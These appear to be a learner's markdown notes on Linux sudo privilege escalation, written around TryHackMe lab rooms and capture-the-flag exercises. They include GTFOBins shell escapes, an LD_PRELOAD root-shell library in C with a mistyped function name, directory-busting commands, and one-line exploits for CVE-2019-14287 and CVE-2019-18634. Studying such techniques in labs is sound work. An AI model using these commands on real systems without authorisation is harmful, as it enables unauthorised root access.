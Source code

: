 Allows us to run command as ROOT

# Escalation via Sudo Shell Escaping
❗️ GTFOBins - [https://gtfobins.github.io/](https://gtfobins.github.io/)

Good Practice: Linux PrivEsc Playground - [https://tryhackme.com/room/privescplayground](https://tryhackme.com/room/privescplayground)

- ALWAYS run `sudo -l` to check
```bash
sudo -l #show what we can do as root without password
#utilize GTFOBins for appropriate command
sudo vim -c ':!/bin/sh' #if vim available

#if awk available
sudo awk 'BEGIN {system("/bin/sh")}'
```

# Escalation via Intended Functionality
wget example - [https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/](https://veteransec.com/2018/09/29/hack-the-box-sunday-walkthrough/)

if no escape through GTFOBins, still can use the powers as intended >> need to think outside of the box

# Escalation via LD_PRELOAD
If we see `LD_PRELOAD` in sudo -l
loading our own library before other libraries
```bash
nano shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void_init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
#exit nano

gcc -fPIC -shared -o shell.so shell.c -nostartfiles #compile
sudo LD_PRELOAD=/home/user/shell.so <what we want to run as root> 
```

# THM Challenge - Simple CTF 

dirsearch - [https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)

Exploit-DB for Simple CMS - [https://www.exploit-db.com/exploits/46635](https://www.exploit-db.com/exploits/46635)

- enumerate >> see what's open
	- check ftp, if nothing focus on web route
- do directory busting
	- dirsearch example
```bash
cd /opt/disearch/
python3 dirsearch.py -u http://10.10.149.152 -e php,html -x 400,401,403
```
dirsearch: https://github.com/maurosoria/dirsearch
- 301, redirect on simple >> check it out
	- search google for version exploit >> CMS made simple 2.2.8
- after getting low level user do basic enum
- can see sudo-l vim available, use GTFOBins for sudo shell escape

# CVE-2019-14287 Overview
Exploit-DB for CVE-2019-14287 - [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)

THM ROOM: https://tryhackme.com/room/sudovulnsbypass
Escalation:
- key command: `sudo -u#-1 /bin/bash`
- ls
- cat root.txt

# CVE-2019-18634 Overview
Exploit for CVE-2019-18634 - [https://github.com/saleemrashid/sudo-cve-2019-18634](https://github.com/saleemrashid/sudo-cve-2019-18634)

if pwfeedback is on you will see asterisks when inputting password

THM ROOM: https://tryhackme.com/room/sudovulnsbof
Escalation:
- `sudo -V` for sudo version > if before 1.8.26 can run exploit



